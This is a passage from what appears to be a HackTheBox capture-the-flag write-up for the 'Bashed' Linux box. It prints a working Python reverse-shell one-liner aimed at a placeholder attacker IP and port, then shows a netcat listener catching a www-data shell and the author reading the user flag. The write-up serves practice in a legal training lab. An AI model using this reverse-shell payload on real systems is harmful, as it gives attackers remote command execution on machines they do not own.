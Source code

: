 ```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Attacker's-IP>",<Attacker's-Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Running `netcat` on my machine and I got a reverse shell.
```
──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Bashed]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 38412
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Then, as expected, I went on to retrive the user's flag by changing to `/home` directory to
view its contents

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Bashed]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 38512
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls
phpbash.min.php
phpbash.php
$ pwd
/var/www/html/dev
$ cd /home
$ ls
arrexel
scriptmanager
$ ls -lah
total 16K
drwxr-xr-x  4 root          root          4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Jun  2  2022 ..
drwxr-xr-x  4 arrexel       arrexel       4.0K Jun  2  2022 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4.0K Dec  4  2017 scriptmanager
$ 

```

Visiting `/arrexel` directory, I found `user.txt` flag
```
$ ls
arrexel
scriptmanager
$ cd arrexel
$ ls
user.txt
$ cat user.txt
[REDACTED]
```
